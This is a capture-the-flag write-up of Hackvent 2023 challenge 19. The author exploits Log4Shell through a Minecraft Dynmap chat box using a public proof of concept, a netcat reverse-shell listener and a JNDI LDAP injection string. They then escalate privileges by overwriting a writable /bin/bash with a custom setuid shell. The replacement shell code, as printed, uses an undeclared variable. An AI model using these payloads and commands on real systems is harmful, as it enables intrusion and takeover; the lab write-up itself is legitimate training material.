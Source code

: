 # [HV23.19] Santa's Minecraft Server

Minecraft + Hackvent, hell yeah.

The description of the challenge tells us that the server is running on Minecraft 1.16, a pretty old version, the server itself is not accessible tho, only a Webinterface called [Dynmap](https://github.com/webbukkit/dynmap) is.

As we open up the Webinterface, we can see a chat-box. User supplied input + old Java? This screams Log4j.

First Log4j Shell exploit from the google results: https://github.com/kozmer/log4j-shell-poc

Start using: `python3 poc.py --userip 10.13.0.14 --webport 8888 --lport 4444`

Open a listener using: `nc -nvlp 4444`

Put the following into the chat-box: `${jndi:ldap://10.13.0.14:1389/a}`

Now we have a reverse shell, looking at `/` we can see a folder called `santas-workshop` which has two files `tool` and `tool.c` inside.

Looking at `tool` shows it has the `setuid` and `setgid` bits set, `tool.c` cotains the source code:

```c
cat tool.c
#include <unistd.h>
#include <stdio.h>

void debugShell() {
	printf("Launching debug shell...\n");
	char *argv[] = { "/bin/bash", 0 };
	execve(argv[0], &argv[0], NULL);
}

void main() {
	printf("--- Santas Workshop Tool ---\n");
	printf("Pick an action:\n");
	printf("s) debug shell\n");
	printf("-- more options to come\n");

	char option;
	scanf("%c", &option);

	switch (option) {
	case 's': debugShell(); break;
	default: printf("Unknonwn option!\n"); break;
	}
}
```

This does work to give us a debug shell, but it is missing the `-p` parameter, looking at `/bin/bash` shows us that it is writeable, how nice of the author.

After quickly writing a shell in C and compiling it using `gcc` we can copy it to `/bin/bash`.

```c
#include <stdio.h>
#include <unistd.h>

int main() {
    char *args[] = {"/bin/sh", "-p", NULL};
    execve(shell, args, NULL);
    return 0;
}
```

We can write this program to a file using a single line with `printf`:

`printf "#include <stdio.h>\n#include <unistd.h>\n\nint main() {\n    char *args[] = {\"/bin/sh\", \"-p\", NULL};\n\n    execve(shell, args, NULL);\n    \n    return 0;\n}\n" > shell.c`

Compile using: `gcc shell.c -o shell`

Overwrite bash: `cp shell /bin/bash`

Now for some reason, I had to `cd` into `/santas-workshop` before running `./tool` and supplying `s`, now we have a shell as `santa`

`cat /home/santa/flag.txt` reveals the flag.

Flag: `HV23{d0n7_f0rg37_70_upd473_k1d5}`
